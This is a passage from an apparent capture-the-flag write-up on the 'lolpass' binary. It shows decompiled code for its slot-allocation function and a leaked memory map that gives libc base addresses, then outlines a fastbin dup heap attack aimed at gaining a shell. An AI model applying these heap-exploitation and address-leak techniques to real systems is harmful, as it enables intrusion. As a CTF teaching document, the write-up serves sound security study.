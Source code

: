 Additionally, an _update_ is also not an update but a completely new `calloc` call as seen in the `new_or_update` function:
```c
void new_or_update(byte param_1,char param_2)

{
  void *pvVar1;
  
  if ((param_2 == '\0') ||
     ((param_2 != '\0' && (*(long *)(ptrs + (long)(int)(uint)param_1 * 8) != 0)))) {
    pvVar1 = calloc(1,100);
    *(void **)(ptrs + (long)(int)(uint)param_1 * 8) = pvVar1;
    secret_inp(*(char **)(ptrs + (long)(int)(uint)param_1 * 8));
  }
  else {
    printf("Err: cannot operate on slot %d\n",(ulong)param_1);
  }
  return;
}
```

Other options also exist:
- printing memory map with an _about_ option, thus leaking addresses
- performing self-test which performs most important function calls to see if everything works

Considering that maps are leaked, we can call `calloc` as much as we want, `free` the same memory as much as we want and `read` any chunk content not depending on its state, it's possible to perfom any type of _heap feng shui_, but, for simplicity and speed, we will demonstrate how to leverage a shell with a simple fastbin dup technique.

## Leaking libc base address

The information leak issue is straightforward, we parse the output of the _about_ menu choice:
```
...
Your choice: 9
lolpass 0.1 © Serious security takers
564e018f2000-564e018f3000 r--p 00000000 00:3f 1314386                    /ctf/lolpass
564e018f3000-564e018f4000 r-xp 00001000 00:3f 1314386                    /ctf/lolpass
564e018f4000-564e018f5000 r--p 00002000 00:3f 1314386                    /ctf/lolpass
564e018f5000-564e018f6000 r--p 00002000 00:3f 1314386                    /ctf/lolpass
564e018f6000-564e018f7000 rw-p 00003000 00:3f 1314386                    /ctf/lolpass
7fad54e79000-7fad54e9e000 r--p 00000000 00:3f 791268                     /usr/lib/x86_64-linux-gnu/libc-2.31.so
7fad54e9e000-7fad55016000 r-xp 00025000 00:3f 791268                     /usr/lib/x86_64-linux-gnu/libc-2.31.so
7fad55016000-7fad55060000 r--p 0019d000 00:3f 791268                     /usr/lib/x86_64-linux-gnu/libc-2.31.so
7fad55060000-7fad55061000 ---p 001e7000 00:3f 791268                     /usr/lib/x86_64-linux-gnu/libc-2.31.so
7fad55061000-7fad55064000 r--p 001e7000 00:3f 791268                     /usr/lib/x86_64-linux-gnu/libc-2.31.so
7fad55064000-7fad55067000 rw-p 001ea000 00:3f 791268                     /usr/lib/x86_64-linux-gnu/libc-2.31.so
7fad55067000-7fad5506d000 rw-p 00000000 00:00 0 
7fad5506f000-7fad55070000 r--p 00000000 00:3f 791246                     /usr/lib/x86_64-linux-gnu/ld-2.31.so
7fad55070000-7fad55093000 r-xp 00001000 00:3f 791246                     /usr/lib/x86_64-linux-gnu/ld-2.31.so
7fad55093000-7fad5509b000 r--p 00024000 00:3f 791246                     /usr/lib/x86_64-linux-gnu/ld-2.31.so
7fad5509c000-7fad5509d000 r--p 0002c000 00:3f 791246                     /usr/lib/x86_64-linux-gnu/ld-2.31.so
7fad5509d000-7fad5509e000 rw-p 0002d000 00:3f 791246                     /usr/lib/x86_64-linux-gnu/ld-2.31.so
```